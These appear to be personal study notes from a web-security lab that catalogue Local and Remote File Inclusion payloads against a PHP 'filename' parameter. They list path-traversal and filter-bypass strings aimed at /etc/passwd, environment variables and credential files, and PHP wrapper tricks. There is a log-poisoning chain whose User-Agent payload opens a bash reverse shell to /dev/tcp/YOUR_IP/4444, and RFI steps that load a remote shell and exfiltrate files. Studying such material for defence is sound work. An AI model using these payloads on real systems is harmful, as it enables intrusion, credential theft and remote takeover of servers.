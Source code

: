 
## 1. Local File Inclusion (LFI) Payloads

- **It allows reading local files on the server by manipulating the `filename` parameter.
### Payloads : 

1. **Basic Path Traversal :** 

	- Attempts to access files by navigating up directories.
	- `../../../../../etc/passwd` then use " ` ..././..././..././..././..././ ` ", <-- if `../` gets filtered.
	
	> if u get '"Failed with error `file_get_contents(etc/passwd)` "
	   So, it means that ` ../ ` is getting filtered out.

	- **Files to target :**

		- `etc/passwd` : **User Accounts** 
		- `/proc/self/environ`: **Environment variables (e.g., DB_PASSWORD).**
		- `/proc/version`: **Kernel version.**
		- `/etc/hosts`: **Network info.
		- `/etc/issue`: **OS version.
		- `/var/www/html/.env`: **App credentials.
		- `/var/www/html/config.php`: **DB credentials.
		- `/var/www/html/flag.txt`: **TCM lab flags.`
		
	- check [[1. LFI - RFI]] for more of this `Files to Target`.

	-  **Absolute Paths :** 

		- Payload: `/etc/passwd`
		- Purpose: ***Bypasses ../ filters if relative paths are blocked.***
		- **Example: GET /labs/fi0x01.php?filename=/etc/passwd.

2. **Filter Bypass Techniques :**

	- Bypasses filters blocking `../` or appending extensions (e.g., .txt).

	- **Creative Path Traversal :**
	
		- Payload: `..././..././..././..././..././etc/passwd`
		- Result: **Successfully retrieved /etc/passwd, bypassing ../ filter.
		
		-  **Variations:
    
		    - `....//....//....//....//etc/passwd`
		    - `..\/..\/..\/..\/..\/etc/passwd`

		- **Files to try after filter bypassing.

			- `..././..././..././..././..././proc/self/environ
	        - `..././..././..././..././..././var/www/html/.env
	        - `..././..././..././..././..././var/www/html/flag.txt

	- **URL Encoding : 

		- Payload: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd` (encodes ../../../../../etc/passwd)
		- ***Use sites like [URL ENCODING](https://www.urlencoder.org/)

		- **Use Double Encoding.

	- **Null byte Injection : 

		- Payload: `../../../../../etc/passwd%00`
		- Purpose: **Truncates appended extensions (e.g., .txt) in PHP <5.3.4.
		- Note: Unlikely in modern PHP but possible in lab VMs.
		
3. **PHP Wrappers : 

	- ***Reads source code of PHP files without execution.

		- **php://filter**:

			- Payload: `php://filter/convert.base64-encode/resource=fi0x01.php`  or `..././db.php`.
			- Purpose: **Retrieves source code of fi0x01.php in base64 (decode with base64 -d).
			- Example: `GET /labs/fi0x01.php?filename=php://filter/convert.base64-encode/resource=fi0x01.php`  or `GET /labs/fi0x01.php?filename=php://filter/convert.base64-encode/resource=..././db.php`

		- **data:// Wrapper** (Rare):

			- Payload: `data://text/plain,<?php phpinfo(); ?>
			- Purpose: **Tests direct code injection (requires allow_url_include).

4. **Log Poisoning (LFI to RCE) : 

	- ***Injects PHP code into server logs and includes them for RCE.

		- **Steps : 

			- **Inject code via User-Agent :
			
				- Set `User-Agent: <?php system('whoami'); ?> in Burp.`
				- **Send request to `http://localhost/labs/fi0x01.php.`
		
			- **Include Log File : 
			
				- Payload: `..././..././..././..././..././var/log/apache2/access.log`
				
				- **Other Log Paths:
				
				    - `..././..././..././..././..././var/log/httpd/access_log`
				    - `..././..././..././..././..././usr/local/apache2/logs/access.log`
				    
			- **Escalate to Reverse Shell : 

				- User-Agent: `<?php system('bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'); ?>`
				- Listener: **nc -lvnp 4444
				- Include: `GET /labs/fi0x01.php?filename=..././..././..././..././..././var/log/apache2/access.log`

			-  **Purpose**: **Turns LFI into RCE if logs are readable and parsed as PHP.

			- - **Files to Target**:
    
			    - Apache: `/var/log/apache2/access.log (Ubuntu)
			    - Nginx: `/var/log/nginx/access.log
			    - TCM Flags: `cat /flag.txt or find / -name flag* after RCE.


## 2. Remote File Inclusion (RFI) Payloads

- **RFI includes and executes files from a remote server, requiring allow_url_fopen and allow_url_include. 

	1. **Basic RFI Test : 
	
		- *Confirms if remote URLs are included.

		- **Payload :
		
			- http://YOUR_IP:8000/test.txt
			- Setup: `echo "RFI Test" > test.txt && python3 -m http.server 8000`
			- **Example: GET /labs/fi0x01.php?filename=http://YOUR_IP:8000/test.txt
			
		- **Purpose**: Verifies RFI by displaying RFI Test.
		- **Variations**:
    
		    - http://YOUR_IP:8000/test.txt
		    - ftp://YOUR_IP/test.txt
		    - http://127.0.0.1:80/robots.txt
        

	2. **RFI for RCE : 

		-  **Executes remote PHP code for RCE.

		1. **Payload : 
			![[Pasted image 20250729134203.png]]

		- **Webshell : 

			-![[Pasted image 20250729134409.png]]
		- **Reverse Shell : 

			-![[Pasted image 20250729134512.png]]
	3. **RFI Filter Bypasses : 

	- *Bypasses filters blocking URLs or extensions.

		1. **URL encoding : 

			- Payload: `http%3A%2F%2FYOUR_IP%3A8000%2Fshell.php
			- Example: `GET /labs/fi0x01.php?filename=http%3A%2F%2FYOUR_IP%3A8000%2Fshell.php

		2. **Alternative Extensions : 

			- Payload: `http://YOUR_IP:8000/shell.txt
			- Purpose: **Bypasses .php filters if server executes .txt as PHP.

	3. **Data Exfiltration via RFI :

		- **Exfiltrates local files to your server.
			![[Pasted image 20250729141431.png]]




---